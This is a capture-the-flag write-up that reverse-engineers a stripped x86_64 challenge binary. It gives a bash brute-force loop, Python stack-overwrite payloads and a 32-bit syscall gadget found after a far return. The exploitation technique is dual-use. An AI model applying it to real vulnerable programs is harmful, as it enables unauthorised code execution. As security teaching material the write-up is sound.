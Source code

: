 We gonna take a crack at a meduim binary exploitation challenge by Touhami Kasbaoui.

This is the link for the binary:

http://tracker.0btemoslab.com/challenges/take-it-easy

![file](https://pouch.jumpshare.com/preview/zlejgyvYLyHjzNh9Ymf8nOJE5Y9XUyV811MVVYOBjty4jWyd9mBPAR97IEnHrzB9xQysGijYlM7l3EWEjMzh9TJprjKJn4snkOQIlHyX-Do)

As you can see, it's a stripped x86_64 ELF binary. Let's check the ELF header.

![readelf -h header](https://pouch.jumpshare.com/preview/BvNXIFjQp8f6YqGbVYaneC7wiItwdnqsmDoPnC9lQo2LDFrfY55bpSL4txKwahbLJmHTIUyC7XoQy9o-VssUUTJprjKJn4snkOQIlHyX-Do)

What we can learn from this, is that the entry point to this binary is at **0x400144**.

Let's execute the binary.

![./take-it-easy](https://pouch.jumpshare.com/preview/7MlrxrrC7lC1fLIyllR8XvdoDB-u6fFgxxlA0ec3_ifr268PTCZ_oX1v4Q1NpCUdH_5BUel3Fq_kXqVIVHC5bxA1jQB_zmxltR5bgJ1-nls)

As you can see that the binary output "input" and read characters from the stdin, After that output "checkser" and read again. Let's use gdb to examine what's happening.

*NOTE: Remember that it is a stripped binary so no symbols are available, we need to break at the entry point address 0x400144*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/bnDtseOR67PEK6j0LtLkudqvKTKEiLcTtURiqQ4-t0DN7SNmTUG5C9KRUe0AaiezR6DQnalSTy3EhLe3szKU4BA1jQB_zmxltR5bgJ1-nls)

You can use the gdb to go step by step with instructions and use ***i r*** to list the registers and examine there values.

[GDB-PEDA](https://github.com/longld/peda) is a great extension that will help you visualize the register and the stack more easily.

This is the instructions the binary contain:

```

   0x400144:	mov    rax,0x1
   0x40014b:	mov    rdi,0x1
   0x400152:	movabs rsi,0x6000000                ("input\n")
   0x40015c:	mov    rdx,0x6
   0x400163:	syscall                             write syscall  
   0x400165:	xor    rax,rax
   0x400168:	xor    rdi,rdi
   0x40016b:	movabs rbx,0x6000400
   0x400175:	mov    rsi,rbx
   0x400178:	mov    rdx,0x8                     reads 8Bytes
   0x40017f:	syscall                            read syscall
   0x400181:	rdtsc                              Read Time-Stamp Counter
   0x400183:	xor    rax,rdx                     XOR rax and rdx that contain the Time-Stamp
   0x400186:	mov    rdi,rbx
   0x400189:	mov    rcx,0x0
   0x400190:	mov    rdi,rbx                     --------------------------------------------
   0x400193:	add    rdi,rcx                       A loop that iterate on the buffer read 
   0x400196:	xor    BYTE PTR [rdi],al               before and perfome an xop operation
   0x400198:	inc    rcx                              on each byte and the al register
   0x40019b:	cmp    rcx,0x8
   0x40019f:	jl     0x400190                    --------------------------------------------
   0x4001a1:	mov    rax,QWORD PTR [rbx]
   0x4001a4:	push   rax                         Push the modified buffer to the stack
   0x4001a5:	sub    rsp,0x20                    Subtract the rsp pointer
   0x4001a9:	mov    rax,0x1
   0x4001b0:	mov    rdi,0x1
   0x4001b7:	movabs rsi,0x6000007               (checkser\n)
   0x4001c1:	mov    rdx,0xa
   0x4001c8:	syscall                            write syscall
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp                     store the buffer read directly on the stack
   0x4001d3:	mov    rdx,0x100                   reads 256Bytes
   0x4001da:	syscall                            read syscall
   0x4001dc:	add    rsp,0x20                    restore the stack to it's original address wish mean 32Byte of out input is ignored
   0x4001e0:	mov    rdi,0x1
   0x4001e7:	mov    rsi,0x3
   0x4001ee:	mov    rdx,0x3
   0x4001f5:	mov    rcx,0x7
   0x4001fc:	cmp    rax,0x20                    If the buffer size read is less than or equal to 32Byte then the program exit
   0x400200:	jle    0x400214
   0x400202:	pop    r11                         pop the buffer from the stack
   0x400204:	xor    r11,QWORD PTR [rbx]         check if the buffer was tampred with
   0x400207:	jne    0x400214
   0x400209:	mov    QWORD PTR [rsp+0x8],0x23    set 0x23 at the rsp+0x8 wish will set the code segment at the return far
   0x400212:	retfq                              return far wish pop the instruction address and code segment from the top of the stack
   0x400214:	mov    rax,0x3c
   0x40021b:	mov    rbx,0x0
   0x400222:	syscall                            exit syscall

```

The main part that jumped out to me is the loop that modify the buffer we input using the Read Time-Stamp Counter.

[RDTSC](https://c9x.me/x86/html/file_module_x86_id_278.html)

Loads the current value of the processor's time-stamp counter into the EDX:EAX registers. The time-stamp counter is contained in a 64-bit MSR. The high-order 32 bits of the MSR are loaded into the EDX register, and the low-order 32 bits are loaded into the EAX register.

[x86_64 registers](https://wiki.osdev.org/CPU_Registers_x86-64)

![x86_64 registers](https://askcodez.com/images2/155807970253616.png)

[XOR](https://www.loginradius.com/blog/engineering/how-does-bitwise-xor-work/#:~:text=XOR%20is%20a%20bitwise%20operator,X)

![XOR](https://i.stack.imgur.com/qncwi.png)

Let's run the debugger and see if we can understand what's going on.

*I am going to provide an input of "AAAAAAAA".*

![gdb take-it-easy](https://pouch.jumpshare.com/preview/xZkkhLGGgCjy_l4-s9YEWNqvAuxNqR8NWdIN0Mgk9h6r-wn3395rj10n486AkehIYwo3AGyPdvSQKNUULLGFqzJprjKJn4snkOQIlHyX-Do)

As you can see our input got modified using the xor operation with the $al register wish is read from the time stamp counter. We have no control over the time stamp counter, but knowing the nature of CPU's the time stamp counter is geting incremented each second with an insane speed. 

The second read syscall allow us to store directly into the stack. Knowing that all we have to do is write the next instruction address to the stack and return far will pop it giving us control. But to write our address to the stack we need to overwrite the value pushed before, thus the program quit as it checks if the stack got tampred with.

```
   0x400204:	xor    r11,QWORD PTR [rbx]
   0x400207:	jne    0x400214
```

As said before the time stamp counter will be modified every time we execute the binary. We can brute force the time stamp counter by executing the binary in an infinite loop until one time the sanitization output will be the same as a value we set into the stack thus the check will pass allowing us to write out own address to the stack.

```
#!/bin/bash
while [ 1 ]
do
  echo "---------- starting ------------"
  ./take-it-easy < inputs > /dev/null # execute the binary and redirect stdout to /dev/null so the stdout won't be fludded
  if [ $? -eq 139 ] # check if the binary triggred a SEGV signal
  then
    break
  fi
  echo "---------- end ----------------"
done
```

*I am going to provide an input of "AAAAAAAAVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV".*

![./exploit.sh](https://pouch.jumpshare.com/preview/7ve7SjqX_uPWYeujlAKeB3wbwPIqfKjQ2C9887EQyctySB8GCtLDMKzYH8nSNiNvOv0AQfWUmJzbl37Sgn2OTxA1jQB_zmxltR5bgJ1-nls)

The first buffer check is bypassed. Know let's inject an address to the stack and see if we can get control of the instruction pointer after the return far call.

*I am going to write to the stack the address of the write checkser address 0x4001a9. We are expecting to see checkser output two times*

```
fo = open("payload", "wb")

payload = b'A'*8 # the first input

payload += b'X'*40 # 0x20 the the stack get added with + 8 Bytes of the poped buffer

payload += b"\xa9\x01\x40\x00\x00\x00\x00\x00" # the address is inverted because of little endianness

fo.write(payload)

fo.close()
```

![./exploit.sh](https://pouch.jumpshare.com/preview/8c0RpMeHe5QjTQDLpHu9PncHxWIbsc4C4D9IzfH62G73FBk-rICMjSIjL4wKrWguiq5rWBkcjZp8NeZyfgmcfDJprjKJn4snkOQIlHyX-Do)

**No double checkser!? what's going on?**

We overlook something. return far does more than pop the instruction address from the stack, it also pop another byte to set the code segment register setting it with a value of 0x23. After the return far the code now is running on 32 bit mode. We can test that by loocking for 32 bit instruction and try to execute them.

```
   0x400214:	mov    rax,0x3c
```

After using a tool called ropper that look for gadgets in the binary, i found a gadget that call a system call. *int 0x80*

![ropper](https://pouch.jumpshare.com/preview/dYhIS75pQl2ijWxcym8Ky8KWzAQ77Skl22UrL8ArM7s00HL9VVjcNFuBG2wjmOK9wQbIzcOpD1Z6nKpdFClmKjJprjKJn4snkOQIlHyX-Do)

![gdb](https://pouch.jumpshare.com/preview/e6y-U3rpzjmLBjYdP8_ZcgQ1UpF6nJdfbWn2RX_qg8JUmNZBZ1x1-Hmulw2YiG1F8xPQiU4VEiHwy8nwRvV6zTJprjKJn4snkOQIlHyX-Do)

We can also controll the eax register because it was never reset after the last read syscall. Wish mean that the eax register will be set by the lenght of out last input. But it will be limited because we can't input a buffer less than 33 Byte plus the address of the gadget and the max is 256 Bytes.

```
   0x4001ca:	xor    rax,rax
   0x4001cd:	xor    rdi,rdi
   0x4001d0:	mov    rsi,rsp
   0x4001d3:	mov    rdx,0x100
   0x4001da:	syscall
```

[x86 syscall table](https://x86.syscall.sh/)

I am going to use olduname to test and run the binary using the debugger to examine the registers.
***For debugging i bypass the buffer check by setting rbx to the value of r11, set *((unsigned long *) 0x6000400)=$r11***

```
fo = open("payload", "wb")

payload = b'A'*8

payload += b'X'*40

payload += b"\x37\x01\x40\x00\x00\x00\x00\x00"

payload += b'A'*61

fo.write(payload)

fo.close()
```

![gdb](https://pouch.jumpshare.com/preview/AsHoOU5CT2iZHkvVBfqYQNFqH6CvdobkJByIPqsCOUnDXw942AAj4hVveVsUk2l-alTpIrR-BYGnczTHh_-m5BA1jQB_zmxltR5bgJ1-nls)

We can see that olduname got executed succesfully, and also we can see that the esp point to an invalid address because of the switch to 32bit mode.


